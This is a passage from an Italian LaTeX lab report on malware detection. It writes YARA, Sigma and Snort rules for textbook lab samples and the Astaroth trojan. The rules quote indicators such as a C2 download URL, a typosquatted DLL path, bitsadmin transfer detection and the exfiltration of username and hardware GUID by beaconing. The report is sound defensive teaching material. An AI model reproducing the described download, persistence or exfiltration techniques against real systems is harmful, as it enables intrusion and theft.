        $cmd_exec = "exec"
        $cmd_sleep = "sleep"

    condition:
        2 of ($mutex, $ip, $cmd_hello, $cmd_exec, $cmd_sleep)
}
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_dll_res.jpg}
  \caption{Risultato del rilevamento YARA per la DLL}
\end{figure}

\textbf{Rilevamento di Lab01-01.exe}:

Il secondo task si è concentrato sul file eseguibile principale. L'ispezione con IDA Pro ha portato all'individuazione di due artefatti critici:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_exe.jpg}
  \caption{Stringhe estratte da \texttt{Lab01-01.exe} in IDA Pro}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_exe_spec.jpg}
  \caption{Dettaglio delle stringhe e librerie importate dall'eseguibile}
\end{figure}

Percorso DLL Malevola: Un percorso di sistema alterato, utilizzato presumibilmente per caricare la libreria nociva mascherandola da processo legittimo.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_exe_pos_newfilename.jpg}
  \caption{Locazione del percorso del file di typosquatting \texttt{kerne132.dll}}
\end{figure}

Messaggio di Testo: Una stringa di avviso hardcoded stampata a schermo dal malware.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_exe_pos_warn.jpg}
  \caption{Riferimento alla stringa di WARNING}
\end{figure}

Snippet di codice:
\begin{lstlisting}
rule Lab01_01_EXE {
    meta:
        description = "Rilevamento di Lab01-01.exe"
        author = "Il tuo nome"
    
    strings:
        $dll_path = "C:\\windows\\system32\\kerne132.dll" 
        $message = "WARNING_THIS_WILL_DESTROY_YOUR_MACHINE" 

    condition:
        all of them
}
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_exe_res.jpg}
  \caption{Risultato del rilevamento YARA per l'eseguibile}
\end{figure}

\subsection{Lab01-04}

Durante l'ispezione iniziale con il disassemblatore IDA Pro, l'analisi strutturale standard ha evidenziato la presenza di chiamate a funzioni di gestione delle risorse di Windows (quali \texttt{FindResourceA}, \texttt{LoadResource} e \texttt{SizeofResource}).

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_4_1.jpg}
  \caption{Funzioni di gestione risorse utilizzate nel codice}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_4_2.jpg}
  \caption{Visualizzazione grafica del flusso di caricamento risorse}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_4_spec.jpg}
  \caption{Parametri di \texttt{FindResourceA} indicanti l'estrazione di un eseguibile secondario}
\end{figure}

Questa configurazione è tipica dei dropper, ovvero programmi malevoli che fungono da contenitori e che occultano un secondo payload eseguibile all'interno della propria sezione risorse (\texttt{.rsrc}).
A causa di questo incapsulamento, la vista standard delle stringhe di IDA Pro non è stata in grado di indicizzare o mostrare direttamente il dominio di comando e controllo cercato. È stato quindi necessario adottare un approccio alternativo basato sulla scansione dei byte grezzi tramite \texttt{yarGen} per estrarre gli indicatori nascosti.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_4_winup_pos.jpg}
  \caption{Riferimento alla stringa \texttt{\textbackslash winup.exe} all'interno delle risorse grezze}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_4_wupd_pos.jpg}
  \caption{Identificazione dell'URL del dominio C2 e di \texttt{\textbackslash wupdmgr.exe}}
\end{figure}

Lanciando lo strumento \texttt{yarGen} con il database di goodware abilitato per filtrare le stringhe legittime del sistema operativo, è stata estratta una firma euristica iniziale che ha esposto con successo tutti gli artefatti annidati all'interno della risorsa binaria. Di seguito viene riportata l'esatta struttura della regola YARA generata automaticamente dal tool:

\begin{lstlisting}
rule Lab01_04 {
   meta:
      description = "malware-basic - file Lab01-04.exe"
      author = "yarGen Rule Generator"
      reference = "https://github.com/Neo23x0/yarGen"
      date = "2026-06-10"
      hash1 = "0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126"
   strings:
      $s1 = "\\system32\\wupdmgrd.exe" fullword ascii
      $s2 = "\\system32\\wupdmgr.exe" fullword ascii
      $s3 = "http://www.practicalmalwareanalysis.com/updater.exe" fullword ascii
      $s4 = "\\winup.exe" fullword ascii
      $s5 = "<not real>" fullword ascii
   condition:
      uint16(0) == 0x5a4d and filesize < 100KB and
      all of them
}
\end{lstlisting}

Analizzando la regola grezza sopra riportata, emergono le seguenti considerazioni ingegneristiche:
La dicitura \texttt{uint16(0) == 0x5a4d} verifica l'intestazione logica del file (``MZ'' tipico dei Portable Executable di Windows), mentre \texttt{filesize < 100KB} impedisce al motore YARA di saturare le risorse di calcolo scansionando file massivi non pertinenti.

Le stringhe \texttt{\$s2} (\texttt{\textbackslash system32\textbackslash wupdmgr.exe}), \texttt{\$s3} (il dominio C2 \texttt{http://www...}) e \texttt{\$s4} (\texttt{\textbackslash winup.exe}) costituiscono l'impronta comportamentale univoca del malware. Esse descrivono il tentativo del dropper di sovrascrivere il Windows Update Manager originale con un binario malevolo.

La stringa \texttt{\$s5 = "<not real>"} rappresenta un artefatto volatile o un potenziale elemento di disturbo. Se l'attaccante decidesse di ricompilare il codice modificando o rimuovendo questa stringa inerte, la regola YARA strutturata con la condizione \texttt{all of them} fallirebbe l'identificazione, generando un falso negativo. È quindi imperativo rimuoverla.

I nomi generici assegnati alle variabili (\texttt{\$s1}, \texttt{\$s2}, ecc.) riducono la scannabilità del codice per i team di Incident Response. È opportuno rinominare le variabili con identificativi semantici chiari.

Applicando i criteri di raffinamento descritti, la regola è stata reingegnerizzata per mantenere la massima reattività e azzerare le possibilità di elusione basate su stringhe non operative:

\begin{lstlisting}
rule Lab01_04_EXE_Refined {
    meta:
        description = "malware-basic - file Lab01-04.exe"
    
    strings:
        // Indicatori host: percorsi dei file binari scritti o manipolati dal dropper
        $path_wupdmgr = "\\system32\\wupdmgr.exe" fullword ascii
        $path_winup   = "\\winup.exe" fullword ascii
        
        // Indicatore di rete: dominio C2 hardcoded estratto dalle risorse grezze
        $c2_url       = "http://www.practicalmalwareanalysis.com/updater.exe" fullword ascii

    condition:
        // Vincoli strutturali del file PE uniti alla presenza degli IoC
        uint16(0) == 0x5a4d and 
        filesize < 100KB and 
        all of ($path_wupdmgr, $path_winup, $c2_url)
}
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_4_res.jpg}
  \caption{Risultato del rilevamento YARA con la regola raffinata}
\end{figure}

\section{Astaroth}

Astaroth è un Trojan altamente sofisticato specializzato nel furto di credenziali. La sua particolarità risiede nell'esteso utilizzo di tecniche fileless e nell'abuso di LOLBins (Living Off The Land Binaries). Invece di scaricare binari eseguibili sospetti, Astaroth sfrutta utility legittime preinstallate in Windows (come \texttt{bitsadmin.exe}, \texttt{cmd.exe} ed \texttt{extexport.exe}) per bypassare i controlli perimetrali, decifrare i propri payload e garantirsi la persistenza nel sistema senza allertare le soluzioni antivirus tradizionali.

Per monitorare l'attività del malware è stato impiegato Sysmon (System Monitor), focalizzando l'analisi sui seguenti identificatori:

\begin{itemize}
  \item \textbf{EventID 1 (Process Create)}: Per tracciare l'esecuzione dei LOLBins e i parametri passati a riga di comando.
  \item \textbf{EventID 11 (File Create)}: Per intercettare la scrittura di payload o file di collegamento (\texttt{.lnk}) nelle cartelle di esecuzione automatica.
  \item \textbf{EventID 12 (Registry Event)}: Per monitorare la manomissione delle chiavi di registro legate alla persistenza al boot.
\end{itemize}

È stato sviluppato un set completo di 6 regole Sigma in formato YAML.

\begin{itemize}
  \item \textbf{\texttt{astaroth-bits.yml}}: Intercetta l'avvio di \texttt{bitsadmin.exe} associato a flag di copia o trasferimento (\texttt{/transfer}). Questo tool viene abusato dallo stager iniziale per scaricare i payload dal server C2 (Command \& Control).
\begin{lstlisting}[language=XML]
title: Bitsadmin Download
id: d059842b-6b9d-4ed1-b5c3-5b89143c6ede
status: experimental
description: Detects usage of bitsadmin downloading a file
references:
  - https://blog.netspi.com/15-ways-to-download-a-file/#bitsadmin
  - https://isc.sans.edu/diary/22264
tags:
  - attack.defense_evasion
  - attack.persistence
  - attack.t1197
  - attack.s0190
date: 2017/03/09
modified: 2019/12/06
author: Michael Haag
logsource:
  product: windows
  service: sysmon
detection:
  event:
    EventID: 1
  selection1:
    Image: '*\bitsadmin.exe'
    CommandLine: '* /transfer *'
  selection2:
    CommandLine: '*copy *bitsadmin.exe*'
  condition: event and (selection1 or selection2)
fields:
  - CommandLine
  - ParentCommandLine
falsepositives:
  - Some legitimate apps use this, but limited.
level: medium
\end{lstlisting}

  \item \textbf{\texttt{astaroth-extexport.yml}}: Rileva l'esecuzione di \texttt{extexport.exe} al di fuori dei percorsi canonici di Internet Explorer. Questo binario viene tipicamente forzato da Astaroth per eseguire DLL malevole tramite la tecnica del DLL Side-Loading.
\begin{lstlisting}[language=XML]
title: ExtExport.exe DLL Side Loading
id: a1b2c3d4-e5f6-7a8b-9c0d-1e2f3a4b5c6d
status: experimental
description: Detects ExtExport.exe execution indicating a DLL Side-Loading attempt.
references:
  - https://lolbas-project.github.io/lolbas/Binaries/Extexport/
tags:
  - attack.execution
  - attack.defense_evasion
  - attack.t1059
  - attack.t1073
author: Martin, Anartz
date: 2020/06/30
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 1
    Image: '*\extexport.exe'
  filter:
    CommandLine:
      - '^[Cc]:\\[Pp]rogram\ [Ff]iles(\ \([Xx]86\))?\\([Ii]nternet\ [Ee]xplorer\\[Ee]xt[Ee]xport\.exe$'
  condition: selection and not filter
fields:
  - CommandLine
falsepositives:
  - Depending on the estate activity. They should be rare.
level: medium
\end{lstlisting}

  \item \textbf{\texttt{astaroth-reg.yml}}: Regola specifica che rileva la manipolazione (\texttt{EventType: DeleteValue}) della chiave Shell Folders all'interno dell'alveare di registro esatto dell'utente del laboratorio (\texttt{HKU\textbackslash S-1-5-21...}).
\begin{lstlisting}[language=XML]
title: Add Startup Key to Explorer Shell Folders
id: e2a9c7a3-5b2a-4b7e-a8b2-4de0f6e8a6cd
status: experimental
description: Detects the insert of a registry value
references:
  - https://example.com/reference1
  - https://example.com/reference2
tags:
  - attack.defense_evasion
  - attack.persistence
  - attack.t1112
  - attack.s0190
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 12
    Image: 'C:\Windows\System32\cmd.exe'
    EventType: 'DeleteValue'
    TargetObject: 'HKU\S-1-5-21-3191581004-3819144844-3633199379-1002\SOFTWARE\Microsoft\Windows\*'
  condition: selection
fields:
  - UtcTime
  - ProcessGuid
  - ProcessId
  - Image
  - TargetObject
  - User
falsepositives:
  - Legitimate administrative actions
level: medium
\end{lstlisting}

  \item \textbf{\texttt{astaroth-reg-modify.yml}}: Regola generica che intercetta la creazione di un processo (EventID 1) associato a \texttt{reg.exe} la cui riga di comando contenga la stringa ``Shell Folders''.
\begin{lstlisting}[language=XML]
title: Astaroth Generic Registry Modification
description: "Detects process creation events using reg.exe to modify Shell Folders."
id: "b1111111-2222-3333-4444-555555555555"
tags:
  - attack.persistence
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 1
    CommandLine|contains|all:
      - 'reg.exe'
      - 'Shell Folders'
  condition: selection
level: high
\end{lstlisting}

  \item \textbf{\texttt{astaroth-startup.yml}}: Regola specifica (EventID 11) che traccia il momento in cui \texttt{cmd.exe} tenta di creare fisicamente il file \texttt{launcher.lnk} nel percorso assoluto di esecuzione automatica dell'utente unina.
\begin{lstlisting}[language=XML]
title: File Creation by CMD in Startup Folder
id: a3b4c8e3-7f2a-4d7e-b2c5-8e6f8b8d7fcd
status: experimental
description: Detects the creation of a file in the startup folder by cmd.exe
references:
  - https://example.com/reference1
  - https://example.com/reference2
tags:
  - attack.persistence
  - attack.t1547.001
  - attack.s0190
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 11
    Image: 'C:\Windows\System32\cmd.exe'
    TargetFilename: 'C:\Users\unina\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\launcher.lnk'
  condition: selection
fields:
  - UtcTime
  - ProcessGuid
  - ProcessId
  - Image
  - TargetFilename
  - User
falsepositives:
  - Legitimate administrative actions or script usage
level: critical
\end{lstlisting}

  \item \textbf{\texttt{astaroth-startup-detection.yml}}: Regola generica che segnala qualsiasi file con estensione eseguibile (\texttt{.lnk}, \texttt{.bat}, \texttt{.ps1}, \texttt{.exe}) creato all'interno della directory globale o utente di Startup.
\begin{lstlisting}[language=XML]
title: Start-up Detection
description: Detects generic file creation in the Startup folder with executable extensions.
id: "c1111111-2222-3333-4444-555555555555"
tags:
  - attack.persistence
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 11
    TargetFilename|contains: '\Start Menu\Programs\Startup\'
    TargetFilename|endswith:
      - '.lnk'
      - '.bat'
      - '.ps1'
      - '.exe'
  condition: selection
level: high
\end{lstlisting}
\end{itemize}

Di seguito è stato eseguito ZircoLite per verificare l'efficacia delle regole analizzando i log generati da Sysmon:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/zircolite_success.png}
  \caption{Esecuzione riuscita di ZircoLite con regole personalizzate}
\end{figure}

Il comando ZircoLite eseguito è il seguente:
\begin{lstlisting}[language=bash]
python .\zircolite.py --evtx "C:\Users\unina\Desktop\sysmon_log.evtx" --ruleset "C:\Users\unina\Desktop\rules_astaroth.json"
\end{lstlisting}

\section{SNORT}

Il malware è progettato per infettare l'host, raccogliere informazioni identificative sul sistema compromesso e avviare una comunicazione silente (beaconing) verso un server di Command \& Control (C2) per segnalare il successo dell'infezione.

L'analisi dinamica, condotta isolando il campione ed eseguendolo in un ambiente controllato tramite FakeNet-NG, ha rivelato il seguente comportamento di rete:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/snort-connection.jpg}
  \caption{Richieste di beaconing intercettate in rete}
\end{figure}

\begin{itemize}
  \item \textbf{Librerie di Rete Utilizzate}: Il malware fa uso delle librerie di rete standard di Windows (come le API WinINet). Questo gli permette di generare richieste HTTP strutturalmente perfette, ereditando gli header di sistema (es. \texttt{Accept-Encoding: gzip, deflate}) per mimetizzarsi nel normale traffico web.
  \item \textbf{Tecnica di Mascheramento}: Utilizza un'intestazione User-Agent contraffatta ma valida (\texttt{Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2; WOW64; Trident/7.0; .NET4.0C; .NET4.0E)}). Questo simula il traffico generato da un vecchio browser Internet Explorer, rendendo difficile l'individuazione tramite ispezioni superficiali.
  \item \textbf{Dati Esfiltrati}: Il malware ruba due parametri fondamentali: l'Hardware Profile GUID (letto dal registro di sistema) e il Nome Utente della sessione corrente. Queste informazioni permettono all'attaccante di identificare univocamente le vittime ed evitare conteggi doppi nella botnet.
  \item \textbf{Codifica e Trasmissione}: I dati non sono cifrati, ma codificati utilizzando lo standard Base64 (es. \texttt{80:6e:6f:6e:69:63-unina} diventa \texttt{ODA6NmU6NmY6NmU6Njk6NjMtdW5pbmEa}). Questa stringa viene poi inserita direttamente nell'URI di una richiesta HTTP GET.
\end{itemize}

La creazione della regola di rilevamento ha richiesto l'identificazione degli Indicatori di Compromissione (IoC) corretti, evitando le classiche trappole che generano falsi allarmi o mancate rilevazioni.

\textbf{Errori da evitare}:
\begin{itemize}
  \item \textbf{Falsi Positivi}: Non è possibile utilizzare lo User-Agent come trigger per l'allarme. Trattandosi di una stringa legittima di Internet Explorer, la regola bloccherebbe il traffico web di macchine non aggiornate.
  \item \textbf{Falsi Negativi (Hardcoding)}: Non è possibile cercare la stringa Base64 esatta, poiché variando l'Hardware ID e l'utente, la stringa muterà per ogni singola infezione. Inoltre, l'analisi dinamica ha dimostrato che il nome del file immagine richiesto varia dinamicamente (es. \texttt{y.png}, \texttt{a.png}).
\end{itemize}

\textbf{Indicatori Affidabili scelti per la Regola}:
\begin{itemize}
  \item Dominio C2 (Host): \texttt{www.practicalmalwareanalysis.com}
  \item Pattern dell'URI (PCRE): Una struttura composta da \texttt{/} + [Stringa Base64] + \texttt{/} + [singola lettera casuale] + \texttt{.png}.
\end{itemize}

\textbf{Regola Snort Definitiva} per rilevamento beaconing del malware:

\begin{lstlisting}
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS ( \
    msg:"ET MALWARE Lab14-01 Beaconing Detected"; \
    flow:established,to_server; \
    content:"GET"; http_method; \
    content:"www.practicalmalwareanalysis.com"; http_header; \
    pcre:"/^\/[A-Za-z0-9+\/=]+\/[a-z]\.png$/U"; \
    classtype:trojan-activity; \
    sid:1000014; rev:1; \
)
\end{lstlisting}

Per intercettare varianti in cui l'attaccante ha semplicemente cambiato il dominio di destinazione, è necessaria una regola euristica che ometta l'host ma irrigidisca l'espressione regolare (richiedendo un Base64 di almeno 15 caratteri, numero abbastanza alto da tagliare fuori la maggior parte del traffico web legittimo, ma sufficientemente basso da non farsi sfuggire il malware nel caso infettasse un PC con un nome utente corto) per evitare falsi positivi:

\begin{lstlisting}
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS ( \
    msg:"ET MALWARE Generic Base64 PNG Beaconing Pattern"; \
    flow:established,to_server; \
    content:"GET"; http_method; \
    content:".png"; http_uri; fast_pattern; \
    pcre:"/^\/[A-Za-z0-9+\/=]{15,}\/[a-z]\.png$/U"; \
    classtype:trojan-activity; \
    sid:1000015; rev:1; \
)
\end{lstlisting}

Per garantire che le varianti future di questo malware vengano bloccate (ad esempio nel caso l'attaccante modifichi il dominio o la struttura dell'URI), è necessario implementare un set di firme multilivello (Defense in Depth):

\begin{itemize}
  \item \textbf{Firme di Rete (Network Signatures)}: Implementazione della regola Snort descritta sopra, unita al blocco DNS per il dominio malevolo noto.
  \item \textbf{Firme di Host (YARA)}: Creazione di firme statiche basate sull'analisi in IDA Pro per rilevare la presenza di combinazioni specifiche di API importate (es. importazione contemporanea di \texttt{WinINet.dll}, \texttt{GetUserNameA} e manipolazione di \texttt{HwProfileGuid}).
  \item \textbf{Firme Comportamentali (Sigma/Sysmon)}: Creazione di regole per rilevare i processi non autorizzati che tentano di accedere alla chiave di registro \texttt{HKLM\textbackslash System\textbackslash CurrentControlSet\textbackslash Control\textbackslash IDConfigDB\textbackslash Hardware Profiles}.
\end{itemize}

%\include{04_appendice}




\end{document}
